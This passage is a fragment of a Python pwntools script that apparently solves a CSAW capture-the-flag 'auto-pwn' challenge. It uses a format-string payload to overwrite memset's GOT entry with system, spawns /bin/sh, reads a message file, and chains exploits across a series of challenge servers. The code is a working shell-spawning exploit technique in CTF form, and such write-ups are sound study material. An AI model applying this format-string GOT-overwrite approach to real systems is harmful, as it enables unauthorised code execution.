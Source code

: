 ```python
        p.sendline(password)
        p.recvuntil(b"Report 1 in this batch!!\n")
        p.sendline(payload)
        p.sendline()
        p.sendline()
        return p.recvall()
    
    payload = fmtstr_payload(8, {memset_got: system_addr}, write_size='byte')
    r.sendline(payload)
    r.sendline("/bin/sh")
    import time
    time.sleep(1)
    r.sendline("cat message.txt")
    if shell:
        r.interactive()
    r.recvuntil(b"flag is in another box! ")
    message = r.recvline().decode()
    print(message)
    searched = re.search("auto-pwn.chal.csaw.io ([0-9]*) and use password (.*)", message)
    if shell:
        r.interactive()
    r.close()

    return (int(searched.group(1)), searched.group(2).encode())

def main():
    number = 0

    data = [(11001,b"cd80d3cd8a479a18bbc9652f3631c61c")]

    for i in range(15):
        print(number)
        number += 1
        next_port, next_password = data[-1]
        next_port, next_password = exploit_1(next_port, next_password, False)
        data.append((next_port, next_password))
        print((next_port, next_password))
    for i in range(15):
        print(number)
        number += 1
        next_port, next_password = data[-1]
        next_port, next_password = exploit_2(next_port, next_password, False)
        data.append((next_port, next_password))
        print((next_port, next_password))
    for i in range(15):
        print(number)
        number += 1
        next_port, next_password = data[-1]
        next_port, next_password = exploit_3(next_port, next_password, False)
        data.append((next_port, next_password))
        print((next_port, next_password))
    for i in range(16):
        print(number)
        number += 1
        next_port, next_password = data[-1]
        next_port, next_password = exploit_4(next_port, next_password, number == 50)
        data.append((next_port, next_password))
        print((next_port, next_password))

if __name__ == "__main__":
    main()
```
